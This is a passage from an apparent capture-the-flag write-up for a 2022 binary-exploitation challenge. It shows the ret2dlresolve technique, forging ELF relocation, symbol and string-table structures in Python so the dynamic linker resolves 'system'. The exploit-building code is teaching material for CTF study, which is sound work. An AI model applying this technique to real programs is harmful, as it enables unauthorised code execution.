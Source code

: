 Now we will create the structure for Elf64_Rela which is defined as follows:

```c
typedef struct elf64_rela {
    Elf64_Addr r_offset;      /* Location at which to apply the action (8 bytes) */
    Elf64_Xword r_info;       /* index and type of relocation (8 bytes) */
    Elf64_Sxword r_addend;    /* Constant addend used to compute value (8 bytes) */
} Elf64_Rela;
```

We will fake r_offset and r_info while r_addend is the same with .rela.plt of read, which is null byte:

![read_JMPREL_GDB.png](/static/images/tsjctf-2022/bacteria/read_JMPREL_GDB.png)

So our struct for Elf64_Rela will be as following:

```python
r_offset = p64(0xdeadbeef)         # Unknown, temporary
r_info = p64((symbol_number << 32) | 0x7)
# r_addend is null and stack is null already so we don't need to write this,
# also because we run out of 0x10 bytes we can write
Elf64_Rela_struct = r_offset + r_info
```

We know that r_offset is the place which contains the resolved libc address so we will chose the address for that later. Now we will move to the last thing we need to fake: STRTAB.

### Stage 4. Fake address and structure of STRTAB

As 2 part above does at the begining, we will choose the address for STRTAB first. This address also have to satisfy this calculation:

```
    <Address for STRTAB> = <STRTAB> + <st_name>
<=> <st_name> = <Address for STRTAB> - <STRTAB>
```

So this is easier because we don't have a division in the calculation. So we will choose any address which doesn't overwrite the other data:

```
STRTAB_addr  = rw_section + 0x80     = 0x403e80
st_name      = STRTAB_addr - STRTAB  = 15296
```

And the struct for STRTAB is just simply a string contain the function we want:

```python
STRTAB_struct = b'system\x00\x00'
STRTAB_struct += p64(0)              # Just for padding so we don't need to sleep() when read
```

From here, we have 2 things we haven't done is st_name of Elf64_Sym and r_offset of Elf64_Rela. For st_name, we can get that from STRTAB above so stage 2 will change like this:

```python
SYMTAB = 0x400290

Elf64_Sym_addr = rw_section
symbol_number  = int( (Elf64_Sym_addr - SYMTAB) / 24 )

st_name = p32(15296)        # Change here
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
# st_size is null already because the stack now contain all null byte
# so we don't need to write these variable, just need to pad full 0x10
# bytes so that we don't need to sleep()
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx + st_value
```